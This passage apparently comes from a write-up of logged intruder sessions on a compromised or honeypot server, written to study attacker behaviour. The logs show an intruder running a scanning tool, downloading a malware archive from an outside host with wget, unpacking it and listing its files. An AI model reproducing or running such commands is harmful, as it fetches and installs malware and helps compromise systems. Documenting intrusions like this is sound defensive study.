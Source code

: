     server:~# rm -rf scan.tar

    server:~# ls -a
    .         ..        .debtags  .viminfo  .aptitude .profile  .bashrc   scan

    server:~# cd scan

    server:/root/scan# ./a 64.189
    Shall we play a game?

## Sixth example

Another attempt. Here, three different malware programs are tried out before giving up. It's also interesting to see where intruders hide their downloads, some use `/root`, some `/tmp`, some esoteric locations like `/tmp/...`.

    server:~# wget
    wget: missing URL
    Usage: wget [OPTION]... [URL]...
    Try `wget --help' for more options.

    server:~# yum
    bash: yum: command not found

    server:~# wget freewebtown.com/pacalici/lib.tgz
    --2011-02-09 00:30:57--  http://freewebtown.com/pacalici/lib.tgz
    Connecting to freewebtown.com:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 8772939 (8M) [application/x-tar]
    Saving to: `lib.tgz

    100%[======================================>] 8,772,939    1844K/s  eta 0s


    2011-02-09 00:31:02 (1844 KB/s) - `lib.tgz' saved [8772939/8772939]

    server:~# tar zxvf lib.tgz
    lib
    lib/mech.pid
    lib/fuck
    lib/j2
    lib/v
    lib/s
    lib/r
    lib/__libc_start_main
    lib/std
    lib/b
    lib/bang.txt
    lib/j
    lib/1
    lib/f4
    lib/dir
    lib/y2kupdate
    lib/fwd
    lib/x
    lib/mech.set
    lib/tty
    lib/cron.d
    lib/h
    lib/sl
    lib/b2
    lib/W2Ksp3.exe
    lib/tun.seen
    lib/f
    lib/h.c
    lib/stream
    lib/v2
    lib/init